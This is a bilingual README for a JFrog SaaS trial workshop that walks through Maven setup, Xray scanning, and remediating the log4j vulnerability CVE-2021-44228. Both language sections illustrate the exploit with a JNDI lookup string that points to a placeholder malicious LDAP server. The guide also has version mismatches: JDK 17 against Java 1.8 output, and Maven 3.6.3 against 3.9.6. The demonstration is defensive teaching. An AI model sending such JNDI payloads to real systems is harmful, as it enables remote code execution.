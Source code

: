# 🏗️ JFrog SaaS Trial Workshop Guide

<details>
<summary>English</summary>

Welcome to the **JFrog SaaS Trial Workshop!** 🎓  
This guide will help you get started with JFrog SaaS and practice building a Maven project.

## 📝 Prerequisites
### JDK 17 Installation
1. **Install JDK**
   - Download and install JDK from [OpenJDK](https://jdk.java.net/archive/)

2. **Configure Environment Variables**
   - **Set JAVA_HOME**
     1. Open System Properties (Win + S → "Environment Variables")
     2. Click "Environment Variables" → "New" under System variables
     3. Set:
        ```
        Variable name: JAVA_HOME
        Variable value: C:\Program Files\Java\jdk-17
        ```
   
   - **Add Java to PATH**
     1. In System variables, select "Path" → "Edit"
     2. Click "New" and add:
        ```
        %JAVA_HOME%\bin
        ```
     3. Click "OK" to save

3. **Verify Installation**
   ```bash
   # Check Java version
   java -version
   
   # Check Java compiler
   javac -version
   ```
   
   Expected output:
   ```
   openjdk version "1.8.0_442-internal"
   OpenJDK Runtime Environment (build 1.8.0_442-internal-b06)
   OpenJDK 64-Bit Server VM (build 25.442-b06, mixed mode)
   ```

### Maven 3.6.3
1️⃣ **Download Maven**
   - Go to [Apache Maven download page](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - Download the Binary zip archive (e.g., `apache-maven-3.6.3-bin.zip`)

📂 2️⃣ **Extract Maven**
   - Extract the downloaded ZIP file to a directory, e.g.:
     ```
     C:\Program Files\Apache\Maven
     ```
   - Your Maven folder structure should look like:
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.9.6
     ```

⚙️ 3️⃣ **Set Environment Variables**

### Windows Environment Setup

#### Method 1: Using System Properties
```bash
# 1. Open System Properties
# Press Win + S and type "Environment Variables"
# Or right-click on This PC → Properties → Advanced system settings

# 2. Click "Environment Variables" button
# 3. Under "System variables" section, click "New"
# 4. Set MAVEN_HOME:
Variable name:  MAVEN_HOME
Variable value: C:\Program Files\Apache\Maven\apache-maven-3.9.6

# 5. Find "Path" variable, click "Edit"
# 6. Click "New" and add:
%MAVEN_HOME%\bin
# 7. Click "OK" on all windows to save
```

### Verify Installation
```bash
# Open a new Command Prompt and run:
mvn -version
```

Expected output:
```
Apache Maven 3.9.6 (...)
Maven home: C:\Program Files\Apache\Maven\apache-maven-3.9.6
Java version: 1.8.0_442, vendor: Oracle Corporation
Java home: C:\Program Files\Java\jdk1.8.0_442
Default locale: en_US, platform encoding: UTF-8
OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
```

> **Note:** After setting environment variables, you need to open a new Command Prompt for the changes to take effect.

## 🚀 Getting Started

### 1. Apply for JFrog SaaS Trial
1. [Apply for JFrog SaaS Trial](https://jfrog.com/start-free/)  
Select "14-Day Free Trial", it will give you own JFrog Platform.
![alt text](images/trial.png)
2. Ensure you have access to:
   - ✅ **JFrog Artifactory (SaaS)**
   - ✅ **JFrog Xray** 

### 2. Clone the Project
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. Create Maven Repositories
![img_6.png](images/img_6.png)
1. Log in to JFrog SaaS Platform
2. Click **Quick Repository Creation** (top-right)
3. Select **Maven** and create:
   - Local Repo: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Remote Repo: `sample-maven-remote`
   - Virtual Repo: `sample-libs-snapshot` `sample-libs-release`

### 4. Configure JFrog CLI
1. [Download JFrog CLI](https://jfrog.com/getcli/)
2. Configure your environment:
   ```shell
   jf c add saas
   ```
   Follow prompts to enter:
   - JFrog Platform URL: `https://<YOUR_DOMAIN>.jfrog.io`
   - username
   - password or Reference Token (from Profile → Edit Profile → Generate an Identity Token)

### 5. Configure Maven
```shell
cd maven-sample
jf mvnc
```
This generates a `settings.xml` pointing to your SaaS repositories.

### 6. Build and Deploy
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. Verify Deployment
- Check **Artifactory → Artifacts** for deployed files
- View build info in **Builds** section

### 8. Enable Xray Scanning
1. Go to **JFrog Xray → Index Resource**
2. Add to watch:
   - Repositories: `sample-libs-snapshot-local` `sample-libs-release-local`
   - Builds: `sample-maven-build`

### Understanding log4j Vulnerability
The log4j vulnerability (CVE-2021-44228) is detected because your project uses log4j-core 2.14.0. However, it's only exploitable when:

1. Using vulnerable logging patterns:
   ```java
   // Vulnerable
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // Safe
   logger.info("User logged in: {}", username);
   ```

2. **AND** when:
   - Logging user-controlled input
   - Input contains `${jndi:ldap://...}` pattern
   - Application has network access to malicious server

This explains why Xray shows many false positives - vulnerabilities exist in code but aren't exploitable in your use case.

### 9. Remediate log4j Vulnerability

#### 9.1 Review Vulnerability
JFrog Advanced Security has identified this log4j package as a true positive. You can view the detailed evidence in the security report.
![img_1.png](images/img_1.png)

#### Review the False Positive Results
![img_5.png](images/img_5.png)
> **86% of critical/high vulnerabilities are false positives**

![img_4.png](images/img_4.png)

#### 9.2 Block Vulnerable Version
![img_7.png](images/img_7.png)
1. **Create Block Condition:**  
   Administrator → Curation Settings → Create Condition  
   ![img.png](images/img.png)

2. **Create Policy:**  
   ![img_2.png](images/img_2.png)

3. **Clean Cache:**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **Verify Block:**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **Fix: Update log4j Version**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **Rebuild:**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

The build should be successful and the issue was fixed.

7. **Analysis of Vulnerability Fixing Trends:**
Platform → Xray → Scan List → Builds
![alt text](images/buildList.png)

The build should complete successfully, confirming that the security issue has been fixed.

> **Happy building and stay secure! 🚀**

</details>

<details>
<summary>繁體中文</summary>

歡迎參加 **JFrog SaaS 試用工作坊！** 🎓  
本指南將幫助您開始使用 JFrog SaaS 並練習構建 Maven 項目。

## 📝 前置需求
### JDK 17 安裝
1. **安裝 JDK**
   - 從 [OpenJDK](https://jdk.java.net/archive/) 下載並安裝 JDK

2. **配置環境變數**
   - **設置 JAVA_HOME**
     1. 打開系統屬性（Win + S → "環境變數"）
     2. 點擊"環境變數" → 在系統變數下點擊"新建"
     3. 設置：
        ```
        變數名稱：JAVA_HOME
        變數值：C:\Program Files\Java\jdk-17
        ```
   
   - **添加 Java 到 PATH**
     1. 在系統變數中，選擇"Path" → "編輯"
     2. 點擊"新建"並添加：
        ```
        %JAVA_HOME%\bin
        ```
     3. 點擊"確定"保存

3. **驗證安裝**
   ```bash
   # 檢查 Java 版本
   java -version
   
   # 檢查 Java 編譯器
   javac -version
   ```
   
   預期輸出：
   ```
   openjdk version "1.8.0_442-internal"
   OpenJDK Runtime Environment (build 1.8.0_442-internal-b06)
   OpenJDK 64-Bit Server VM (build 25.442-b06, mixed mode)
   ```

### Maven 3.6.3
1️⃣ **下載 Maven**
   - 訪問 [Apache Maven 下載頁面](https://archive.apache.org/dist/maven/maven-3/3.6.3/binaries/apache-maven-3.6.3-bin.zip )
   - 下載二進制 zip 檔案（例如：`apache-maven-3.6.3-bin.zip`）

📂 2️⃣ **解壓 Maven**
   - 將下載的 ZIP 檔案解壓到目錄，例如：
     ```
     C:\Program Files\Apache\Maven
     ```
   - 您的 Maven 資料夾結構應該如下：
     ```
     C:\Program Files\Apache\Maven\apache-maven-3.9.6
     ```

⚙️ 3️⃣ **設置環境變數**

### Windows 環境設置

#### 方法 1：使用系統屬性
```bash
# 1. 打開系統屬性
# 按 Win + S 並輸入"環境變數"
# 或右鍵點擊此電腦 → 屬性 → 進階系統設定

# 2. 點擊"環境變數"按鈕
# 3. 在"系統變數"部分，點擊"新建"
# 4. 設置 MAVEN_HOME：
變數名稱：MAVEN_HOME
變數值：C:\Program Files\Apache\Maven\apache-maven-3.9.6

# 5. 找到"Path"變數，點擊"編輯"
# 6. 點擊"新建"並添加：
%MAVEN_HOME%\bin
# 7. 點擊所有視窗的"確定"保存
```

### 驗證安裝
```bash
# 打開新的命令提示字元並運行：
mvn -version
```

預期輸出：
```
Apache Maven 3.9.6 (...)
Maven home: C:\Program Files\Apache\Maven\apache-maven-3.9.6
Java version: 1.8.0_442, vendor: Oracle Corporation
Java home: C:\Program Files\Java\jdk1.8.0_442
Default locale: en_US, platform encoding: UTF-8
OS name: "windows 10", version: "10.0", arch: "amd64", family: "windows"
```

> **注意：** 設置環境變數後，您需要打開新的命令提示字元才能使更改生效。

## 🚀 開始使用

### 1. 申請 JFrog SaaS 試用
1. [申請 JFrog SaaS 試用](https://jfrog.com/start-free/)  
選擇"14 天免費試用"，它將為您提供自己的 JFrog 平台。
![alt text](images/trial.png)
2. 確保您有權限訪問：
   - ✅ **JFrog Artifactory (SaaS)**
   - ✅ **JFrog Xray** 

### 2. 克隆項目
```bash
git clone https://github.com/JFrogChina/jfrog-poc-samples.git
cd jfrog-poc-samples/maven-sample
```

### 3. 創建 Maven 倉庫
![img_6.png](images/img_6.png)
1. 登入 JFrog SaaS 平台
2. 點擊**快速倉庫創建**（右上角）
3. 選擇 **Maven** 並創建：
   - 本地倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
   - 遠程倉庫：`sample-maven-remote`
   - 虛擬倉庫：`sample-libs-snapshot` `sample-libs-release`

### 4. 配置 JFrog CLI
1. [下載 JFrog CLI](https://jfrog.com/getcli/)
2. 配置您的環境：
   ```shell
   jf c add saas
   ```
   按照提示輸入：
   - JFrog 平台 URL：`https://<YOUR_DOMAIN>.jfrog.io`
   - 用戶名
   - 密碼或參考令牌（從個人資料 → 編輯個人資料 → 生成身份令牌）

### 5. 配置 Maven
```shell
cd maven-sample
jf mvnc
```
這將生成指向您的 SaaS 倉庫的 `settings.xml`。

### 6. 構建和部署
```shell
jf mvn clean install -f pom.xml --build-name=sample-maven-build --build-number=1
jf mvn deploy --build-name=sample-maven-build --build-number=1
jf rt bp sample-maven-build 1
```

### 7. 驗證部署
- 在 **Artifactory → Artifacts** 中檢查已部署的文件
- 在 **Builds** 部分查看構建信息

### 8. 啟用 Xray 掃描
1. 轉到 **JFrog Xray → Index Resource**
2. 添加到監視：
   - 倉庫：`sample-libs-snapshot-local` `sample-libs-release-local`
   - 構建：`sample-maven-build`

### 了解 log4j 漏洞
檢測到 log4j 漏洞（CVE-2021-44228）是因為您的項目使用了 log4j-core 2.14.0。但是，只有在以下情況下才會被利用：

1. 使用易受攻擊的日誌模式：
   ```java
   // 易受攻擊
   logger.info("${jndi:ldap://malicious-server/exploit}");
   
   // 安全
   logger.info("User logged in: {}", username);
   ```

2. **並且**當：
   - 記錄用戶控制的輸入
   - 輸入包含 `${jndi:ldap://...}` 模式
   - 應用程序可以訪問惡意服務器

這解釋了為什麼 Xray 顯示許多誤報 - 代碼中存在漏洞，但在您的使用場景中無法被利用。

### 9. 修復 log4j 漏洞

#### 9.1 審查漏洞
JFrog 高級安全已將此 log4j 包識別為真實漏洞。您可以在安全報告中查看詳細證據。
![img_1.png](images/img_1.png)

#### 審查誤報結果
![img_5.png](images/img_5.png)
> **86% 的嚴重/高風險漏洞是誤報**

![img_4.png](images/img_4.png)

#### 9.2 阻止易受攻擊的版本
![img_7.png](images/img_7.png)
1. **創建阻止條件：**  
   管理員 → 策展設置 → 創建條件  
   ![img.png](images/img.png)

2. **創建策略：**  
   ![img_2.png](images/img_2.png)

3. **清理緩存：**
   ```bash
   rm -rf ~/.m2/repository/org/apache/logging/log4j/*
   ```

4. **驗證阻止：**
   ```shell
   [main] ERROR org.apache.maven.cli.MavenCli - Failed to execute goal on project app-boot: Could not resolve dependencies for project com.example.jfrog:app-boot:war:1.0.2: Could not transfer artifact org.apache.logging.log4j:log4j-core:jar:2.14.0 from/to artifactory-release (https://demo.jfrogchina.com/artifactory/alex-maven): authorization failed for https://demo.jfrogchina.com/artifactory/alex-maven/org/apache/logging/log4j/log4j-core/2.14.0/log4j-core-2.14.0.jar, status: 403 Forbidden -> [Help 1]
   ```
   ![img_3.png](images/img_3.png)

5. **修復：更新 log4j 版本**
   ```xml
   <dependency>
       <groupId>org.apache.logging.log4j</groupId>
       <artifactId>log4j-core</artifactId>
       <version>2.17.1</version>
   </dependency>
   ```

6. **重新構建：**
   ```shell
   jf mvn clean
   jf mvn deploy --build-name=sample-maven-build --build-number=2
   jf rt bp sample-maven-build 2
   ```

構建應該成功，問題已修復。

7. **漏洞修復趨勢分析：**
平台 → Xray → 掃描列表 → 構建
![alt text](images/buildList.png)

構建應該成功完成，確認安全問題已修復。

> **祝您構建愉快，保持安全！🚀**

</details>